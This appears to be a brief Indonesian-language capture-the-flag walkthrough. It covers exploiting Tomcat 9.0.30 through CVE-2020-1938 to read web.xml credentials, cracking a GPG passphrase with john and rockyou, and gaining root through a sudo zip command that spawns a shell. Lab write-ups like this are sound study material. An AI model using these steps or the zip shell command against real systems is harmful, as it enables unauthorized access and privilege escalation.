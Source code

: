 # boot:
1. scan nmap ada banyak yg kebuka -> 8080 web nya cek versi apache nya
2. ada tuh cari coba exploitnya kali aja ada -> soalnya di fuzz pun gada apa apa
3. tomcat 9.0.30 -> CVE-2020-1938 -> python3 cve.py -h aja dulu -> cari exploitnya dari github aja
4. nanti ada disuruh port jp apa gitu sama xml nya disuruh ah coba dulu dah
5. ternyata default gini xml nya WEB-INF/web.xml -> juga pake python2 bukan 3 
6. dapet creds ssh aja
7. ls disitu ada gpg sama asc -> coba wget aja biar kesimpen
8. pertama gpg --import namafile.asc -> udah di import next -> gpg -d nama.pgp 
9. butuh passphrase -> hash in itu asc -> gpg2john namafile.asc > namafile.hash
10. john namafile.hash --wordlist=/rockyou.txt -> nemu passphrase masukin aja dapet creds
11. su aja kesitu dah klaim user flag
12. eh pgp nya di mesin target aja dah biar enak -> kebaca kok

# PE :
1. sudo -l -> ada tuh zip run ini aja
2. TF=$(mktemp -u) -> sudo zip $TF /etc/hosts -T -TT 'sh #'
3. itu milih yg sudo di gtfobins
4. klaim root
